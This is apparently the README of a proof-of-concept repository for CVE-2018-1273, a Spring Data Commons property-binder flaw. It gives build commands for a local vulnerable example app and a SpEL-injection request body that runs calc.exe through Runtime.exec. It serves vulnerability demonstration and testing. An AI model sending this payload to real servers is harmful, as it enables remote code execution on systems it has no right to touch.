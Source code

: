 ## CVE-2018-1273 RCE with Spring Data Commons

#### Vulnerability Description

Spring Data Commons, versions prior to 1.13 to 1.13.10, 2.0 to 2.0.5, and older unsupported versions, contain a property binder vulnerability caused by improper neutralization of special elements. An unauthenticated remote malicious user (or attacker) can supply specially crafted request parameters against Spring Data REST backed HTTP resources or using Spring Data’s projection-based request payload binding hat can lead to a remote code execution attack.

The PoC is from the example of spring-data-commons: 
https://github.com/spring-projects/spring-data-examples/tree/master/web/example

#### Usage of PoC

```
mvn clean package
java -jar target/spring-data-web-example-2.0.0.BUILD-SNAPSHOT.jar
```

Post data to `http://host:8080/users`

```
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=test&password=test&repeatedPassword=test
```

#### Analyze

TODO